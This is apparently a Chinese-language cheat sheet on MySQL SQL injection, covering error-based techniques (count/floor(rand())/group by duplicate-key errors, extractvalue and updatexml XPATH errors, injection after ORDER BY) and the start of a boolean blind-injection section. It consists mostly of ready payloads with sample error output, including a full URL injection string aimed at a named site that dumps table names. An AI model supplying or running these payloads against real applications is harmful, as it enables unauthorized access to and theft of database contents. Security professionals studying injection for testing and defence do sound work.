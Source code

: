 ## 双查询注入报错
count()等聚合函数后有group by的时候会把查询结果暴到错误信息里显示出来。
```
mysql> select count(*),concat((select database()),'~',floor(rand()*2))as a from information_schema.tables group by a;
ERROR 1062 (23000): Duplicate entry 'blog~1' for key 'group_key'
``` 
 总结的注入语句:
> union select 1 from (select+count(*),concat(floor(rand(0)*2),( 注入爆数据语句))a from information_schema.tables group by a)b   

.暴表名,改limit 1,1就是第二个表
> f4ck.net/index.php?id=1 and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables Where table_schema=0xHEX LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1

## ExtractValue(）,updatexml()报错 这种最简单
select extractvalue(1,concat(0x5c,(查询语句)))
```
mysql> select extractvalue(1,concat(0x5c,(select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
``` 

order by 后的报错注入:
```
mysql> select * from users order by id,extractvalue(1, concat(0x5c,(select schema_name from information_schema.schemata limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '\blog'
```
## 其他:
[mysql报错方法整理][1]

   [mysql报错原理分析][2]
[MYSQL报错注入的一点总结][3]


# 盲注
**要求**:要求页面返回数据库查询状态
## 基于布尔
> sql语句正确时-->返回正确页面
  sql语句错误时-->返回通用错误页面
### 基础
substr(str,1,1) 从指定位置截取指定长度的字符串
length() 返回字符长度
ascii() 返回ascii码
limit 0,1 返回第一行
limit 2,1 返回第二行


  [1]: https://www.waitalone.cn/mysql-error-based-injection.html
  [2]: http://www.cnblogs.com/xdans/p/5412468.html
  [3]: https://xianzhi.aliyun.com/forum/read/762.html
  [4]: http://03i0.com/index.php/archives/22/
  [7]: http://www.cnblogs.com/lcamry/p/5763154.html
  [8]: http://www.websec.ca/kb/sql_injection
  [9]: http://www.cnbraid.com/page/7/